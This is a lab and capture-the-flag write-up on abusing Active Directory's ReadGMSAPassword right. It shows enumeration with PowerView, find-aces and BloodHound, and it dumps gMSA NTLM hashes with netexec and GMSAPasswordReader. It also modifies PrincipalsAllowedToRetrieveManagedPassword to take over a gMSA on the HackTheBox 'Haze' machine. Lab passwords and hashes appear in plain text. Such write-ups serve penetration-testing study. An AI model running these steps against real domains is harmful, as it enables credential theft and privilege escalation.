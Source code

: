 ```yaml
---
title: ⚔️DACL - ReadGMSAPassword
date: 2025-10-28 01:09:00 +/-TTTT
categories: [DACL]
tags: [ReadGMSAPassword]     # TAG names should always be lowercase
image : /assets/images/readgmsapasswordbackground.png
---
```


# **ReadGMSAPassword**

### **What is a GMSA?**

**GMSA** stands for **Group Managed Service Account**.

- It’s a type of **Active Directory account** designed for **services, scheduled tasks, or apps**.
- The key idea: **Windows automatically manages the password** — you don’t have to set or rotate it manually.
- The account can be used on **one or more allowed computers** in the domain.

**Benefits of GMSA:**

1. No manual password management.
2. Automatic password rotation by the domain controller.
3. Can be used across multiple machines safely.
4. Works only on allowed computers (controlled by `PrincipalsAllowedToRetrieveManagedPassword`).

## **ReadGMSAPassword Verify**

### **ReadGMSAPassword Verify with PowerView**

```bash
powershell-import /home/elliot/tools/PowerView.ps1

powerpick Get-ADServiceAccount -Filter * | Where-Object { $_.ObjectClass -eq "msDS-GroupManagedServiceAccount" } | Select Name, DistinguishedName
```

![alt text](../assets/images/dacl121.png)

### **ReadGMSAPassword Verify with find-aces**

https://github.com/L1nvx/find-aces

Really great tooolll!!! love it.

**Requirements**

```bash
python3 -m venv .venv                                                                        
source .venv/bin/activate
pip install --upgrade git+https://github.com/skelsec/msldap.git
pip install impacket
pip install colorama
```

and usage is easy too!!

```bash
python3 main.py --auth "ldap+ntlm-password://LAB\\irem:princess@dc.lab.local"

python3 main.py --auth "ldap+ntlm-nt://LAB\\irem:LMHASH:NTHASH@dc.lab.local"

python3 main.py --auth "ldap+kerberos://LAB\\irem@dc.lab.local"
```

for our lab

```bash
(.venv) ➜  find-aces git:(main) ✗ python3 main.py --auth "ldap+ntlm-password://lab.local\\osman:iloveyou@VALENOR-DC01.lab.local"
Type 'help' to see available commands.
$ 

```

and just give 

```bash
find_object_aces <username> - Search for ACEs for a specific user                                                                                            
```

![alt text](../assets/images/dacl122.png)

### **ReadGMSAPassword Verify w Bloodhound**

And off course easiest and common way is bloodhound

![alt text](../assets/images/dacl123.png)

## **ReadGMSAPassword Attack**

### **ReadGMSAPassword Attack with netexec**

We can use easily `--gmsa` module from **LDAP**

```bash
nxc ldap VALENOR-DC01.lab.local -u osman -p iloveyou --gmsa
LDAP        192.168.1.10    389    VALENOR-DC01     [*] Windows 10 / Server 2019 Build 17763 (name:VALENOR-DC01) (domain:lab.local)
LDAPS       192.168.1.10    636    VALENOR-DC01     [+] lab.local\osman:iloveyou 
LDAPS       192.168.1.10    636    VALENOR-DC01     [*] Getting GMSA Passwords
LDAPS       192.168.1.10    636    VALENOR-DC01     Account: GMSA1$               NTLM: 0f38e5403ccf33edaecde96b0d95952f     PrincipalsAllowedToReadPassword: GMSA-Users
LDAPS       192.168.1.10    636    VALENOR-DC01     Account: test-websvc$         NTLM: <no read permissions>                PrincipalsAllowedToReadPassword: gMSA-WebServers
```

### **ReadGMSAPassword Attack with GMSAPasswordReader.exe**

https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/GMSAPasswordReader.exe

we can use this great tool with `execute-assembly` 

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/GMSAPasswordReader.exe --AccountName "GMSA1$" 
```

![alt text](../assets/images/dacl124.png)

## GMSA (BONUS)

![alt text](../assets/images/haze5.png)

### GMSA_MANAGERS write permission

we  are member of `GMSA_MANAGERS` and this is really usefull we can check ACL's with
https://github.com/L1nvx/find-aces

```
python3 main.py --auth "ldap+ntlm-password://haze.htb\\\\mark.adams:Ld@p_Auth_Sp1unk@2k24@DC01.haze.htb"
$ find_object_aces gMSA_Managers
05:46:34 - INFO - Found group: gMSA_Managers

================================================================================
ACE #1
Object DN: CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
Object SID: S-1-5-21-323145914-28650650-2368316563-1111
--------------------------------------------------------------------------------
  ACE Type: 5
  SID: S-1-5-21-323145914-28650650-2368316563-1107
  Permissions: ADS_RIGHT_DS_WRITE_PROP
  Object Type: 888eedd6-ce04-df40-b462-b8a50e41ba38
  Inherited Type: -

================================================================================
ACE #2
Object DN: CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
Object SID: S-1-5-21-323145914-28650650-2368316563-1111
--------------------------------------------------------------------------------
  ACE Type: 0
  SID: S-1-5-21-323145914-28650650-2368316563-1107
  Permissions: READ_CONTROL, ADS_RIGHT_DS_READ_PROP
  Object Type: -
  Inherited Type: -

================================================================================
ACE #3
Object DN: CN=Support_Services,CN=Users,DC=haze,DC=htb
Object SID: S-1-5-21-323145914-28650650-2368316563-1112
--------------------------------------------------------------------------------
  ACE Type: 0
  SID: S-1-5-21-323145914-28650650-2368316563-1111
  Permissions: WRITE_OWNER
  Object Type: -
  Inherited Type: -

================================================================================
ACL expansion complete. Total ACEs found: 3
================================================================================

================================================================================
PERMISSION RELATIONS WITH RESOLVED OBJECT TYPES
================================================================================
CN=gMSA_Managers,CN=Users,DC=haze,DC=htb
└── [READ_CONTROL, ADS_RIGHT_DS_READ_PROP, ADS_RIGHT_DS_WRITE_PROP] → (ms-DS-GroupMSAMembership)
    └── CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
        └── [WRITE_OWNER] → (No Object Type)
            └── CN=Support_Services,CN=Users,DC=haze,DC=htb

```

![alt text](../assets/images/haze6.png)

We have Write Permission on it then we can add in `ReadGmsaPassword` permission and we can use this with mark.adams. and boommm

```
*Evil-WinRM* PS C:\\Backups> Set-ADServiceAccount -Identity "Haze-IT-Backup$" -PrincipalsAllowedToRetrieveManagedPassword "gMSA_Managers"
*Evil-WinRM* PS C:\\Backups> Get-ADServiceAccount -Identity "Haze-IT-Backup$" -Properties PrincipalsAllowedToRetrieveManagedPassword

DistinguishedName                          : CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
Enabled                                    : True
Name                                       : Haze-IT-Backup
ObjectClass                                : msDS-GroupManagedServiceAccount
ObjectGUID                                 : 66f8d593-2f0b-4a56-95b4-01b326c7a780
PrincipalsAllowedToRetrieveManagedPassword : {CN=gMSA_Managers,CN=Users,DC=haze,DC=htb}
SamAccountName                             : Haze-IT-Backup$
SID                                        : S-1-5-21-323145914-28650650-2368316563-1111
UserPrincipalName                          :

```

and now we can

```
nxc ldap DC01.haze.htb -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' -k --gmsa
LDAP        DC01.haze.htb   389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAPS       DC01.haze.htb   636    DC01             [+] haze.htb\\mark.adams:Ld@p_Auth_Sp1unk@2k24
LDAPS       DC01.haze.htb   636    DC01             [*] Getting GMSA Passwords
LDAPS       DC01.haze.htb   636    DC01             Account: Haze-IT-Backup$      NTLM: 1b49f312a7619ca460290ecefd4dfcb7     PrincipalsAllowedToReadPassword: gMSA_Managers

```